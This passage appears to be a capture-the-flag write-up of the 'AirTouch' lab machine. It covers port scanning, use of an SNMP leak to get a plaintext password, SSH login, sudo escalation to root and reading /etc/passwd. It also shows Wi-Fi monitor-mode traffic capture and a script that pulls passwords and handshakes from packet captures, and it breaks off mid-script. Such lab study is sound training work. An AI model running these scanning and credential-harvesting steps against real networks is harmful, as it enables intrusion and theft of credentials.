




## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
- [Initial Access](#Initial-Access)
    - [Enumeration of Port 161/UDP](#Enumeration-of-Port-161UDP)
- [Enumeration (consultant on AirTouch)](#Enumeration-consultant-on-AirTouch)
- [Privilege Escalation to root (AirTouch)](#Privilege-Escalation-to-root-AirTouch)
- [Enumeration (root on AirTouch)](#Enumeration-root-on-AirTouch)
- [Lateral Movement (AirTouch)](#Lateral-Movement-AirTouch)
    - [Deauth Attack on WPA-PSK](#Deauth-Attack-on-WPA-PSK)
    - [Analyzing the Capture File](#Analyzing-the-Capture-File)
    - [Capturing the Pre-Shared Key (PSK)](#Capturing-the-Pre-Shared-Key-PSK)
    - [Cracking the Pre-Shared Key (PSK) using Aircrack-ng](#Cracking-the-Pre-Shared-Key-PSK-using-Aircrack-ng)
    - [Decrypting the Network Traffic](#Decrypting-the-Network-Traffic)
    - [Connect to the Service Set Identifier (SSID) of AirTouch-Internet](#Connect-to-the-Service-Set-Identifier-SSID-of-AirTouch-Internet)
    - [Port Forwarding](#Port-Forwarding)
- [Accessing AirTouch Router Dashboard](#Accessing-AirTouch-Router-Dashboard)
    - [Authentication Bypass](#Authentication-Bypass)
    - [Bypassing Upload Filter](#Bypassing-Upload-Filter)
    - [Shell Stabilization](#Shell-Stabilization)
- [Enumeration (www-data on AirTouch-AP-PSK)](#Enumeration-www-data-on-AirTouch-AP-PSK)
- [Privilege Escalation to user (AirTOUCH-AP-PSK)](#Privilege-Escalation-to-user-AirTOUCH-AP-PSK)
- [Enumeration (user on AirTouch-AP-PSK)](#Enumeration-user-on-AirTouch-AP-PSK)
- [Privilege Escalation to root (AirTouch-AP-PSK)](#Privilege-Escalation-to-root-AirTouch-AP-PSK)
- [user.txt](#usertxt)
- [Enumeration (root on AirTouch-AP-PSK)](#Enumeration-root-on-AirTouch-AP-PSK)
- [Lateral Movement (AirTouch-AP-MGT)](#Lateral-Movement-AirTouch-AP-MGT)
    - [Evil Twin Attack using eaphammer](#Evil-Twin-Attack-using-eaphammer)
    - [Cracking the Hash using John the Ripper](#Cracking-the-Hash-using-John-the-Ripper)
- [Enumeration (remote on AirTouch-AP-MGT)](#Enumeration-remote-on-AirTouch-AP-MGT)
- [Enumeration (admin on AirTouch-AP-MGT)](#Enumeration-admin-on-AirTouch-AP-MGT)
- [root.txt](#roottxt)

## Summary

The box starts with the `Enumeration` of port `161/UDP` aka `Simple Network Management Protocol (SNMP)`. By using `snmpwalk` it is possible to retrieve `Credentials` for the user `consultant` which grant `Initial Access` to the box.

After `Privilege Escalation` to `root` through `sudo` permissions, the `Enumeration` reveals multiple `Wireless Network Interfaces` and `eaphammer` for `Evil Twin Attacks`. By analyzing `Network Diagrams` found in the user's home directory, it becomes clear that the environment consists of multiple `Access Points (APs)` and `Network Segments`.

By performing a `Deauthentication Attack` on the `WPA-PSK` protected network `AirTouch-Internet` using `aireplay-ng` and capturing the traffic with `airodump-ng`, it is possible to obtain the `Pre-Shared Key (PSK)` through a `4-Way Handshake`. The captured `PSK Hash` can be cracked using `aircrack-ng` with the `rockyou.txt` wordlist, revealing the `Cleartext Password`.

With the `Pre-Shared Key (PSK)` it is possible to use `airdecap-ng` to `decrypt` the captured `Network Traffic` which reveals an `IP Address`, a `PHP Session ID (PHPSESSID)`, and `HTTP Headers` that allow access to the `AirTouch Router Dashboard`.

By exploiting an `Authentication Bypass` vulnerability and bypassing `Upload Filters`, it is possible to achieve `Code Execution` on the `AirTouch-AP-PSK` system as `www-data`. Through `Privilege Escalation` to `user` and subsequently to `root`, the `user.txt` can be obtained.

For `Lateral Movement` to the `AirTouch-AP-MGT` system, an `Evil Twin Attack` using `eaphammer` is required. This attack captures `WPA2-Enterprise` authentication attempts, allowing to obtain `Hashes` that can be cracked using `John the Ripper`. The cracked `Credentials` enable `Lateral Movement` to the `Management Network` where the `root.txt` can be retrieved.

## Reconnaissance

### Port Scanning

We started with our initial `Port Scan` using `Nmap` which strangely only showed port `22/TCP` to be open.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.244.98 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-17 20:01 +0100
Warning: 10.129.244.98 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.244.98
Host is up (0.21s latency).
Not shown: 60209 closed tcp ports (reset), 5325 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 36.33 seconds
```

This brought us to immediately run a scan for open `UDP Ports` and this one brought up port `161/UDP` to be open, which was the `Simple Network Management Protocol (SNMAP)`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.244.98          
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-17 20:03 +0100
Nmap scan report for 10.129.244.98
Host is up (1.0s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT    STATE         SERVICE VERSION
68/udp  open|filtered dhcpc
161/udp open          snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: Consultant

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1237.23 seconds
```

## Initial Access

### Enumeration of Port 161/UDP

We ran `snmpwalk` against port `161/UDP` and got a `Password` and two `Usernames` out of it.

```shell
┌──(kali㉿kali)-[~]
└─$ snmpwalk -c public -v1 10.129.244.98
iso.3.6.1.2.1.1.1.0 = STRING: "\"The default consultant password is: RxBlZhLmOkacNWScmZ6D (change it after use it)\""
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (29278) 0:04:52.78
iso.3.6.1.2.1.1.4.0 = STRING: "admin@AirTouch.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "Consultant"
iso.3.6.1.2.1.1.6.0 = STRING: "\"Consultant pc\""
iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.4 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (36094) 0:06:00.94
End of MIB
```

| Username   | Password             |
| ---------- | -------------------- |
| admin      |                      |
| consultant | RxBlZhLmOkacNWScmZ6D |

We used the `credentials` to login to the box as `consultant`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh consultant@10.129.244.98
The authenticity of host '10.129.244.98 (10.129.244.98)' can't be established.
ED25519 key fingerprint is: SHA256:DvSEBg/+I7/iyiQVI8zQVuFIAJ4Cs4c7Y3FhAeAlJcU
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.244.98' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
consultant@10.129.244.98's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

consultant@AirTouch-Consultant:~$ 
```

## Enumeration (consultant on AirTouch)

As next step we started with our `Enumeration` and figured out, that we could easily `Escalate` our `Privilges` (`PrivEsc`) to `root` because of the `permissions` we got using `sudo`.

```shell
consultant@AirTouch-Consultant:~$ id
uid=1000(consultant) gid=1000(consultant) groups=1000(consultant)
```

```shell
consultant@AirTouch-Consultant:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
Debian-snmp:x:106:110::/var/lib/snmp:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
consultant:x:1000:1000::/home/consultant:/bin/bash
```

```shell
consultant@AirTouch-Consultant:~$ sudo -l
Matching Defaults entries for consultant on AirTouch-Consultant:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User consultant may run the following commands on AirTouch-Consultant:
    (ALL) NOPASSWD: ALL
```

However, we put the `Privilege Escalation` back and looked around a bit more. Within the `Home Directory` of the user `consultant` we found two `.png` files.

```shell
consultant@AirTouch-Consultant:~$ ls -la
total 888
drwxr-xr-x 1 consultant consultant   4096 Jan 17 19:08 .
drwxr-xr-x 1 root       root         4096 Jan 13 14:55 ..
lrwxrwxrwx 1 consultant consultant      9 Mar 27  2024 .bash_history -> /dev/null
-rw-r--r-- 1 consultant consultant    220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 consultant consultant   3771 Feb 25  2020 .bashrc
drwx------ 2 consultant consultant   4096 Jan 17 19:08 .cache
-rw-r--r-- 1 consultant consultant    807 Feb 25  2020 .profile
-rw-r--r-- 1 consultant consultant 131841 Mar 27  2024 diagram-net.png
-rw-r--r-- 1 consultant consultant 743523 Mar 27  2024 photo_2023-03-01_22-04-52.png
```

We downloaded both using the `Secure Copy Protocol (SCP)` to have a look at them.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ scp consultant@10.129.244.98:/home/consultant/diagram-net.png .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
consultant@10.129.244.98's password: 
diagram-net.png
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ scp consultant@10.129.244.98:/home/consultant/photo_2023-03-01_22-04-52.png .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
consultant@10.129.244.98's password: 
photo_2023-03-01_22-04-52.png
```

The first one showed a sketch of a `Wireless Network Setup` containing two `Access Points (AP)` for `Consultants`, `Touch Devices` and the `Corporate Network`.



The second one was a more polished version of the sketch with more details on the `IP addresses`. Since there was a `Network Address Translation (NAT)`  configured in-between, that meant that there has to be some sort of `Router`.



Back on the box, we checked the `/etc/hosts` file to confirm our assumption. We were indeed on the `Consultant Laptop` having the `IP address` of `172.20.1.2`.

```shell
consultant@AirTouch-Consultant:~$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::  ip6-localnet
ff00::  ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1       AirTouch-Consultant
172.20.1.2      AirTouch-Consultant
```

## Privilege Escalation to root (AirTouch)

We switched to `root` for further `Enumeration`.

```shell
consultant@AirTouch-Consultant:~$ sudo su
root@AirTouch-Consultant:/home/consultant# 
```

## Enumeration (root on AirTouch)

Now that we got access to `/root` we took a quick look at it and found `eaphammer` inside it, which can be used for `Evil Twin` attacks.

```shell
root@AirTouch-Consultant:~# ls -la
total 28
drwx------  1 root root 4096 Jan 13 14:55 .
drwxr-xr-x  1 root root 4096 Jan 17 19:01 ..
lrwxrwxrwx  1 root root    9 Mar 27  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Mar 27  2024 .cache
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root  259 Mar 27  2024 .wget-hsts
drwxr-xr-x 21 root root 4096 Mar 27  2024 eaphammer
```

Next we checked the available `Interfaces` because moving on from here using attacks on `Wi-Fi Networks` sounded pretty logical to us.

```shell
root@AirTouch-Consultant:~/eaphammer# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if29: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether f2:7a:ab:c3:41:37 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.20.1.2/24 brd 172.20.1.255 scope global eth0
       valid_lft forever preferred_lft forever
7: wlan0: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff
8: wlan1: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:01:00 brd ff:ff:ff:ff:ff:ff
9: wlan2: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
10: wlan3: <BROADCAST,MULTICAST> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 00:11:22:33:44:00 brd ff:ff:ff:ff:ff:ff
11: wlan4: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:04:00 brd ff:ff:ff:ff:ff:ff
12: wlan5: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:05:00 brd ff:ff:ff:ff:ff:ff
13: wlan6: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:06:00 brd ff:ff:ff:ff:ff:ff
```

## Lateral Movement (AirTouch)

### Deauth Attack on WPA-PSK

To see what was actually going on we picked the interface `wlan0` and configured it to run in `Monitor Mode` using `airmon-ng`.

```shell
root@AirTouch-Consultant:~# airmon-ng start wlan0
Your kernel has module support but you don't have modprobe installed.
It is highly recommended to install modprobe (typically from kmod).
Your kernel has module support but you don't have modinfo installed.
It is highly recommended to install modinfo (typically from kmod).
Warning: driver detection without modinfo may yield inaccurate results.


PHY     Interface       Driver          Chipset

phy0    wlan0           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211

                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
phy1    wlan1           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy2    wlan2           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy3    wlan3           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy4    wlan4           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy5    wlan5           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy6    wlan6           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
```

After that we started `dumping` the `Traffic` on `Channel 6` for `WPS` with `airodump-ng`.

```shell
root@AirTouch-Consultant:~# airodump-ng wlan0mon -w scanc44 -c 44 --wps
20:45:48  Created capture file "scanc44-01.cap".
```

After we collected about `2000 Beacons` we stopped the `capture`.

```shell
 CH 44 ][ Elapsed: 3 mins ][ 2026-01-18 17:56 ][ WPA handshake: AC:8B:A9:F3:A1:13         
      
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID       
      
 4E:FB:8F:2D:72:65  -28 100     2003        0    0   1   54        TKIP   PSK         vodafoneFB6N
 AC:8B:A9:F3:A1:13  -28 100     2003      159    0  44   54e  WPA2 CCMP   MGT         AirTouch-Office                                                                         
 AC:8B:A9:AA:3F:D2  -28   0     2003      197    0  44   54e  WPA2 CCMP   MGT         AirTouch-Office                                                                         
      
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes        
      
 AC:8B:A9:F3:A1:13  28:6C:07:12:EE:F3  -29    6e-36e     0      159  PMKID  AirTouch-Office       
 AC:8B:A9:AA:3F:D2  28:6C:07:12:EE:A1  -29    6e- 6e   366      125  PMKID  AirTouch-Office       
 AC:8B:A9:AA:3F:D2  C8:8A:9A:6F:F9:D2  -29    6e- 6e     0      130  PMKID  AirTouch-Office,AccessLink                                                                        
Quitting...
```

What we also were able to see was, that on `Channel 44` were two `clients` connected.

```shell
28:6C:07:12:EE:F3
28:6C:07:12:EE:A1
```

### Analyzing the Capture File

Next we downloaded the `scanc44-01.cap` file for further investigation.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ scp consultant@10.129.244.98:/home/consultant/scanc44-01.cap .
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
consultant@10.129.244.98's password: 
scanc44-01.cap                                                                                                                                                                                                                                                                                                                                                                                          100%  103KB 677.5KB/s   00:00
```

Now that we had the file, we used the box creators script to query through the captured data.

- [https://gist.githubusercontent.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2/raw/78e097e1d4a9eb5f43ab0b2763195c04f02c4998/pcapFilter.sh](https://gist.githubusercontent.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2/raw/78e097e1d4a9eb5f43ab0b2763195c04f02c4998/pcapFilter.sh)

```shell
#!/bin/bash

#author         : Raul Calvo Laorden (me@r4ulcl.com)
#description    : Script to get WPA-EAP Identities, EAP certs, HTTP passwords, Handshakes, DNS queries, NBTNS queries and LLMNR queries
#date           : 2021-06-24
#usage          : bash pcapFilter.sh -f <pcap/folder> [options]
#-----------------------------------------------------------------------------------------------------------

red=`tput setaf 1`
green=`tput setaf 2`
reset=`tput sgr0`
#echo "${red}red text ${green}green text${reset}"


help () {
    echo "$0 -f <pcap/folder> [OPTION]

    -f <.pcap>: Read pcap or file of .caps
    -h : help

    OPTIONS:
        -A : all
        -P : Get HTTP POST passwords (HTTP)
        -I : Filter WPA-EAP Identity
        -C : Export EAP certs
        -H : Get Handshakes 1 and 2
        -D : Get DNS querys
        -R : Responder vulnerable protocols (NBT-NS + LLMNR)
        -N : Get NBT-NS querys
        -L : Get LLMNR querys
    "

}

filter () {

    echo -e "\n${green}FILE: $FILE${reset}"

    if [ ! -z "$ALL" ] ; then
        PASSWORDS=true
        IDENTITY=true
        HANDSHAKES=true
        DNS=true
        NBTNS=true
        LLMNR=true
        CERT=true
    fi

    if [ ! -z "$PASSWORDS" ] ; then
        echo -e "\n\tGet POST passwords\n"
        tshark -r $FILE -Y 'http.request.method == POST and (lower(http.file_data) contains "pass" or lower(http.request.line) contains "pass" or tcp contains "login")' -T fields -e http.file_data -e http.request.full_uri
        # basic auth?
    fi

    if [ ! -z "$IDENTITY" ] ; then
        echo -e "\n\tGet WPA-EAP Identities\n"
        echo -e 'DESTINATION\t\tSOURCE\t\t\tIDENTITY'
        tshark -nr $FILE -Y "eap.type == 1  && eap.code == 2" -T fields -e wlan.da -e wlan.sa -e eap.identity 2> /tmp/error | sort -u
        cat /tmp/error
    fi

    if [ ! -z "$HANDSHAKES" ] ; then
        echo -e "\n\tGet Handshakes in pcap\n"
        tshark -nr $FILE -Y "wlan_rsna_eapol.keydes.msgnr == 1 or wlan_rsna_eapol.keydes.msgnr == 2"
    fi

    if [ ! -z "$DNS" ] ; then
        echo -e "\n\tGet DNS querys\n"
        tshark -nr $FILE -Y "dns.flags == 0x0100" -T fields -e ip.src -e dns.qry.name
    fi

    if [ ! -z "$NBTNS" ] ; then
        echo -e "\n\tGet NBTNS querys in file to responder\n"
        tshark -nr $FILE -Y "nbns" -T fields -e ip.src -e nbns.name
    fi

    if [ ! -z "$LLMNR" ] ; then
        echo -e "\n\tGet LLMNR querys in file to responder\n"
        tshark -nr $FILE -Y "llmnr" -T fields -e ip.src -e dns.qry.name
    fi

    # https://gist.github.com/Cablethief/a2b8f0f7d5ece96423ba376d261bd711
    if [ ! -z "$CERT" ] ; then
        tmpbase=$(basename  $FILE)
        mkdir /tmp/certs/

        tshark -r $FILE \
                   -Y "ssl.handshake.certificate and eapol" \
                   -T fields -e "tls.handshake.certificate" -e "wlan.sa" -e "wlan.da" | while IFS= read -r line; do
            CERT=`echo $line | awk '{print $1}'`
            SA=`echo $line | awk '{print $2}'`
            DA=`echo $line | awk '{print $3}'`

